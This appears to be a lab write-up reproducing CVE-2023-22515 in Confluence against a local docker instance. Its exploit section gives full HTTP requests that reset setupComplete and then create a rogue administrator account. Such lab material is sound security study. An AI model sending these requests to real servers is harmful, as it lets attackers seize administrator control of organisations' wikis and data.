

Atlassian Confluence Access Control Broken by Attributes Overwrite (CVE-2023-22515)¶
Confluence is a web-based corporate wiki developed by Australian software company Atlassian.
On October 4, 2023, Atlassian published a security advisory on CVE-2023-22515, a critical vulnerability affecting on-premises instances of Confluence Server and Confluence Data Center. CVE-2023-22515 was originally announced as a privilege escalation vulnerability, but was later changed to a broken access control flaw.
Versions prior to 8.0.0 are not affected by this vulnerability.
References:
- https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html
- https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis
Vulnerable Environment¶
Execute following command to start a Confluence Server 8.5.1:
docker compose up -d
After the environment starts, visit http://your-ip:8090 and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian.
Following this guide to complete the installation.
On the database configuration page, fill in the form with database address db, database name confluence, username postgres, password postgres.

Exploit¶
Firstly, send the main request to overwrite the attribute bootstrapStatusProvider.applicationConfig.setupComplete:
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Then, you will be able to create a administrator user vulhub through the website setup action:
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check
username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
Optionally, send the following request to finish the setup wizard:
POST /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
X-Atlassian-Token: no-check
Finally, you can simply login to the administrator panel with account vulhub and password vulhub:
